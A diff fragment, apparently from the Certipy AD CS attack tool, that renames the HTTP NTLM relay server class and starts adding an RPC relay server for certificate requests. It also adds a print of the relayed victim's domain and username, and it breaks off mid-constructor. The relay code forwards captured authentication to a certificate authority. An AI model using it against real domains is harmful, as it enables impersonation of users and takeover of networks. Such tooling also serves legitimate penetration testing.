 ```diff
     cert_to_pem,
     create_csr,
     create_pfx,
+    csr_to_der,
     csr_to_pem,
     get_identifications_from_certificate,
     get_object_sid_from_certificate,
     key_to_pem,
     pem_to_cert,
     pem_to_key,
     rsa,
     x509,
 )
 from certipy.lib.errors import translate_error_code
 from certipy.lib.formatting import print_certificate_identifications
 from certipy.lib.logger import logging
+from certipy.commands.req import MSRPC_UUID_ICPR, RPCRequestInterface
 
 try:
     from http.client import HTTPConnection
 except ImportError:
     from httplib import HTTPConnection
 
 
-class ADCSRelayServer(HTTPRelayClient):
+class ADCSHTTPRelayServer(HTTPRelayClient):
     def initConnection(self):
         logging.debug("Connecting to %s:%s..." % (self.targetHost, self.targetPort))
         self.session = HTTPConnection(
             self.targetHost, self.targetPort, timeout=self.adcs_relay.timeout
         )
         self.session.connect()
         logging.debug("Connected to %s:%s" % (self.targetHost, self.targetPort))
@@ -86,14 +90,16 @@
             response.fromString(data=token)
 
             domain = response["domain_name"].decode("utf-16le")
             username = response["user_name"].decode("utf-16le")
 
             self.session.user = "%s\\%s" % (domain, username)
 
+            print(self.session.user)
+
             auth = base64.b64encode(token).decode("ascii")
             headers = {"Authorization": "%s %s" % (self.authenticationMethod, auth)}
             self.session.request("GET", self.path, headers=headers)
             res = self.session.getresponse()
 
             if res.status == 401:
                 logging.error("Got unauthorized response from AD CS")
@@ -110,15 +116,78 @@
             logging.error("Got error: %s" % e)
             if self.adcs_relay.verbose:
                 traceback.print_exc()
             else:
                 logging.error("Use -debug to print a stacktrace")
 
 
-class ADCSAttackClient(ProtocolAttack):
+class ADCSRPCRelayServer(rpcrelayclient.RPCRelayClient, rpcrelayclient.ProtocolClient):
+    def __init__(self, serverConfig, target, targetPort=None, extendedSecurity=True):
+        rpcrelayclient.ProtocolClient.__init__(
+            self, serverConfig, target, targetPort, extendedSecurity
```